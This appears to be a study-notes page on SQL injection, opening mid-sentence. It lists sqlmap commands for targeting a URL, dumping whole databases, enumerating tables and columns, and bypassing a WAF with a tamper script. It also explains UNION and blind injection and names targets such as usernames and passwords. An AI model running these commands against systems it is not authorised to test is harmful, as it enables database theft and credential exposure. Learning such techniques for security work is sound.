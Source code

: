 ```
```
in a database with 2 columns with useful datatype and containing a table called 
users with the columns username and password.<br>
Provide a URL for a SQLi attack with `sqlmap`:
```
sqlmap --url <url>
```
Tell `sqlmap` the type of database running/to run automatically:
```
sqlmap --dbms=<database-type>
sqlmap --batch
```
Dump the data within the database that the application uses/the entire database:
```
sqlmap --dump
sqlmap --dump-all
```
Enumerate tables/columns in the application's database:
```
sqlmap --tables
sqlmap --columns
```
Use a request in `sqlmap`:
```
sqlmap -r <filename>
```
Bypass WAF:
```
sqlmap --tamper=space2comment
```
## Useful information
1=1 Stands for True.<br>
SQLi is carried out through abusing a PHP GET parameter.<br>
The error used to exploit the SQLi is a quotation mark provided in the username 
input. SQLi is an arrack in which the goal is to break SQL execution logic, 
inject another and then fix the broken part by adding comments at the end.<br>
Most commonly used comments for SQLi payloads are `--+`, `//` and `/*`.<br>
Login bypassing is ONE application of SQLi. Not all login applications use 
PHP.<br>
Blind SQL i is carried out through asking Yes or No questions to the database. 
No means error, Yes means no error.<br>
The number of columns required in a UNION SQLi attack are detected by either
- injecting a series of ORDER BY queries until an error occurs
or
- submitting a series of UNION SELECT payloads with a number of NULL values. 
<br>The use of the latter is recommended.<br>

Things to retrieve in a UNION SQLi:
- database()
- user()
- @@version
- username
- password
- table_name
- column_name
<br>`sqlmap` is a tool that automates the process of detecting and exploiting SQLi
flaws.<br>
## Ressources
[SQL commands](https://www.codecademy.com/articles/sql-commands): List of SQL 
commands<br>
[SQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection): 
SQL injection cheatsheet<br>
[SQL injection payloads list](https://github.com/payloadbox/sql-injection-payload-list): 
Payloads list
